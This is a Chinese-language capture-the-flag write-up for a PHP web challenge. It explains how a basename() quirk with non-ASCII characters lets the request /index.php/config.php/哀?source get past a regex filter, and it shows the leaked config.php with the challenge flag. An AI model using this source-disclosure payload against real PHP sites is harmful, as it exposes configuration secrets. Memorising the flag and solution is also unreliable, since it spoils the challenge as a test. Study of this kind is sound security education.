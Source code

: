 ![[Pasted image 20221225090429.png|500]]

---
首页长这样
![[Pasted image 20221225090448.png]]

```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

这个`guess`显然是没必要guess了，再怎么guess都guess不出来的啦（摊手）

尝试这个`source`查询的可行性
```php
if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}
```
重点是这个此地无银三百两的`$_SERVER['PHP_SELF']`到底是干啥子的
![[Pasted image 20221225095205.png|800]]

目的是让`basename($_SERVER['PHP_SELF'])`为`config.php`
![[Pasted image 20221225095410.png|500]]

开头的过滤
```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
```
匹配`config.php`和后面任意多个`/`到行尾

![[Pasted image 20221225102919.png|800]]
[默认区域设置中，basename 会忽略开头的非ASCII字符](https://bugs.php.net/bug.php?id=62119)

构造`payload`
```php
/index.php/config.php?source
```

利用`basename`函数的问题尝试修改，以绕过`preg_match`
```php
/index.php/config.php/哀?source
```

```php
<?php
define('FLAG', 'flag{d26cb9ed-4893-418c-a451-e306c00ead33}');
```

#Web #PHP #函数 #绕过 #Vulnerabilities #正则表达式